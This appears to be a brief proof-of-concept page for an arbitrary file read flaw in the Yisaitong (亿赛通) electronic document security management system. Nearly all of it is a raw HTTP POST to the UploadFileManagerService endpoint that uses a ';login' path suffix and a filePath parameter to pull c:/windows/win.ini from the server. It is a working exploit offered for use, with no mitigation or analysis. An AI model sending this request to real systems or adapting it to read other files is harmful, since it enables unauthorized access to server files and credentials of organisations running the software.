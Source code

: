 ## 亿赛通电子文档安全管理系统-UploadFileManagerService-任意文件读取漏洞

## poc
```
POST /CDGServer3/document/UploadFileManagerService;login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0

command=ViewUploadFile&filePath=c:/windows/win.ini&fileName1=111111
```
